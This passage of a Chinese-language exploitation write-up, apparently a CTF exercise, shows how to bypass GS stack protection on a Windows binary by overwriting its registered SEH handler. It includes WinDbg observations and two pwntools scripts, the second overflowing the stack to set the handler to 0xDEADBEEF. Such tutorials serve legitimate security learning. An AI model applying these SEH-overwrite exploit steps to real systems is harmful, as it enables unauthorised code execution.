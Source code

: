 那么我们接下来只要能劫持`EIP`就能成功完成漏洞利用，程序开启了`GS`保护，因此我们无法直接劫持返回地址。

进一步分析`main`函数发现，程序在`main`中注册了一个异常处理函数，如果一个程序中注册了一个异常处理函数，那么当该函数运行发生异常时将会由该异常处理函数进行异常的捕获及处理。

[![](https://img.lhyerror404.cn/error404/2020-07-07-071525.png)](https://img.lhyerror404.cn/error404/2020-07-07-071525.png)

我们尝试使用`WinDbg`附加到此程序，然后尝试读`0`地址处的值。

[![](https://img.lhyerror404.cn/error404/2020-07-07-072527.png)](https://img.lhyerror404.cn/error404/2020-07-07-072527.png)

发现程序确实转而去调用注册了的`SEH`了，又发现，程序在压入`EBP`后，压入栈的第三个数即为`SEH`地址，恰好在我们的可控范围，于是我们可以依据此来控制执行流。

### <a class="reference-link" name="%E7%A8%8B%E5%BA%8F%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8"></a>程序漏洞利用

#### <a class="reference-link" name="%E6%8E%A7%E5%88%B6%E6%89%A7%E8%A1%8C%E6%B5%81"></a>控制执行流

首先我们来写一个不触发漏洞利用的交互EXP

```
Stack_address = get_address(sh=sh,info="[+] STACK ADDRESS IS ",start_string="stack address = 0x",end_string="x0A",int_mode=True)
PIE_address   = get_address(sh=sh,info="[+] PIE ADDRESS IS ",start_string="main address = 0x",end_string="x0A",offset=-0x10B0,int_mode=True)
sh.recvuntil('Do you want to know more?')
sh.sendline('noo')
payload = 'A' * 0x10
get_gdb(sh)
sh.sendline(payload)
sh.recvuntil('Do you want to know more?')
sh.sendline('yes')
sh.recvuntil('Where do you want to know')
sh.sendline('0')
sh.interactive()
```

[![](https://img.lhyerror404.cn/error404/2020-07-07-113223.png)](https://img.lhyerror404.cn/error404/2020-07-07-113223.png)

可以发现，异常正常被捕获，接下来，我们来写一个触发漏洞利用的交互EXP

```
Stack_address = get_address(sh=sh,info="[+] STACK ADDRESS IS ",start_string="stack address = 0x",end_string="x0A",int_mode=True)
PIE_address   = get_address(sh=sh,info="[+] PIE ADDRESS IS ",start_string="main address = 0x",end_string="x0A",offset=-0x10B0,int_mode=True)
sh.recvuntil('Do you want to know more?')
sh.sendline('noo')
payload = 'A' * 0x90 + p32(0xDEADBEEF)
get_gdb(sh)
sh.sendline(payload)
sh.recvuntil('Do you want to know more?')
sh.sendline('yes')
sh.recvuntil('Where do you want to know')
sh.sendline('0')
sh.interactive()
```
